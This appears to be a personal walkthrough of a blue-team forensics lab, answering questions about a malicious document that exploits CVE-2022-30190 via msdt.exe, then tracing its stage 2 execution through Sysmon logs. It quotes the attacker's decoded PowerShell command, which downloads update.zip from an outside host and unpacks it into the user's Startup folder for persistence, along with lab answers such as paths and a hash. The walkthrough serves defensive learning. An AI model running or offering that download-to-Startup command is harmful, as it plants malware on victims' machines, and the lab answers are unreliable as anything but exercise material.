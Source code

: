 
What is the CVE number of the exploit used by the attacker to achieve a remote code execution?

An interesting thing to note is msdt.exe. The next question is to find the CVE vulnerability used. The first thing that comes up when looking it up on Google is CVE-2022-30190.


Task 5 Initial Access – Stage 2 Execution:
Based on the initial findings, we discovered that there is a stage 2 execution:

The document has successfully executed an encoded base64 command.

Decoding this string reveals the exact command chain executed by the malicious document.

Investigation Guide

With the following discoveries, we may refer again to the cheatsheet to continue with the investigation:

The Autostart execution reflects explorer.exe as its parent process ID.

Child processes of explorer.exe within the event timeframe could be significant.

Process Creation (Event ID 1) and File Creation (Event ID 11) succeeding in the document execution are worth checking.

Significant Data Sources:

Sysmon


The malicious execution of the payload wrote a file on the system. What is the full target path of the payload?

Top of Form

Decrypting the Base64 message leaves us with $app=[Environment]::GetFolderPath('ApplicationData');cd "$app\Microsoft\Windows\Start Menu\Programs\Startup"; iwr http://phishteam.xyz/02dcf07/update.zip -outfile update.zip; Expand-Archive .\update.zip -DestinationPath .; rm update.zip;

This gives us a lot of information, especially where the file is created. Searching this up in Timeline viewer gives us the full file name: C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

The implanted payload executes once the user logs into the machine. What is the executed command upon a successful login of the compromised user?

Next, we want to find the implanted payload. I just learned how to apply filters and it made searching a lot easier. I filtered by username, event id, and parent process (explorer.exe) given the hints earlier.

Using the same filter, we can get the information of the IP address and the port used, which will be useful for later.

Based on Sysmon logs, what is the SHA256 hash of the malicious binary downloaded for stage 2 execution?Top of Form


Unfortunately, I got stuck so I had to restart my approach to filtering, and searched for the executable, and filtered by process creation: the hash of the downloaded file is: CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8
